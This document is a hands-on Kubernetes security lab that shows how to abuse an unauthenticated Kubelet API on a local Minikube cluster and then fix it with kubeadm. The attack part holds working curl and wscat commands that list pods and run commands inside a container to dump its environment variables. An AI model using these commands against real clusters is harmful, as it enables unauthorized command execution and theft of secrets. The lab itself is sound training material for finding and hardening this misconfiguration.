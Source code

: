 ### Attack the Kubelet API
The Kubelet API is responsible for the master to node communication within a Kubernetes cluster. If you expose your nodes to the internet without some important configurations in place you are going to have a bad time. From the official Kubernetes docs:
"By default, requests to the Kubelet’s HTTPS endpoint that are not rejected by other configured authentication methods are treated as anonymous requests, and given a username of system:anonymous and a group of system:unauthenticated."

So let's exploit this "misconfiguration" within Minikube.

## Task 1: Spin up a default Kubernetes cluster

1. Start Minikube using the default LocalKube bootstrapper:
```
minikube delete
minikube start
```

2. Exec into the Kubernetes master and take a look at the kubelet configs:

```
minikube ssh
# grab your minikube IP address
minikube ip
```

3. The Kubelet API runs on every node. If an individual as network access to a node in the kubernetes cluster, they are able to do some interesting things by default, including "exec-ing" into running pods!
```
# port 10250 is the read/write port that the Kubelet API uses for communication to the master node

curl --insecure https://<minikubeIP>:10250/pods | jq

# jq is a tool to prettify JSON output - it is optional here but very useful
```

4. As you can see, using a default implementation of Minikube (any many other kubernetes production boots trappers) we are able to list all of the pods running on a given node. This seems bad. Let's try to Exec and do some damage. First, we launch some pods to take over. In the `manifests` directory, run the following command:
```
Kubectl create -f .
Kubectl get pods
```

5. Now we have our unshorten-api Deployment and Service up and running we can extract details from them using the same `curl` command we used before:
```
curl --insecure https://<minikubeIP>:10250/pods | jq
```

6. In the `metadata` field of the JSON output for our Pod you will find the pod name (remember, this curl command is NOT authenticated. An attacker can see this info without the proper settings in place!). The value will look something like `"name": "link-unshorten-8746d649b-7k8w2",`

7. Now, we take that Pod name and run another curl command. Reading Pod data is interesting but we want to do some damage:
```
curl --insecure -v -H "X-Stream-Protocol-Version: v2.channel.k8s.io" -H "X-Stream-Protocol-Version: channel.k8s.io" -X POST "https://192.168.99.100:10250/exec/default/link-unshorten-8746d649b-7k8w2/unshorten-api-container?command=env | grep&input=1&output=1&tty=1"
```

8. This opens a stream which we can access using [wscat](https://www.npmjs.com/package/wscat). Take note of the `location:` header as we will be using that value to read from the stream. You can install `wscat` using the link above. Once `wscat` is installed, run the following command:
```
wscat -c "https://<minikubeIP>:10250/cri/exec/<valueFrom302>" --no-check
```

9. These are *all of the environment variables* for our unshorten-api pod, printed to the scree, unauthenticated. 

See any issues here?

## Task 2: Fix the Issue
There are a number of way to address the kubelet-api "misconfiguration" issue. To do this locally, our most simple solution is to bootstrap our cluster using the `kubeadm` bootstrapper. Out of the box, Minikube still uses `localkube` to build clusters. `localkube` runs every cluster component as a single binary in the Kubernetes environment. This project is in the process of being deprecated in favor of `kubeadm` which offers us a much more robust solution that matches production clusters more closely.
```
minikube start --bootstrapper kubeadm
```

1. Run our `curl` command from before. We see that the response is `Forbidden` which is due to how `kubeadm` bootstraps clusters. `kubeadm` implements authorization of the kubelet by default. Let's take a look at this setting under the hood:
```
curl --insecure https://192.168.99.100:10250/pods
```

2. SSH into our Minikube node and take a look at our kubelet config:
```
minikube ssh
sudo cat /etc/kubernetes/kubelet.conf
```

3. You will see that our config defines a set of certificates which successfully enables authentication between the Master and Nodes. 

### Note: `kubeadm` does this by default but this is not always the case for other bootstrap mechanisms or scratch-built clusters! Always manually check that this configuration is enforced!

### Discussion Question: Is your kubelet api configured to block these attacks?
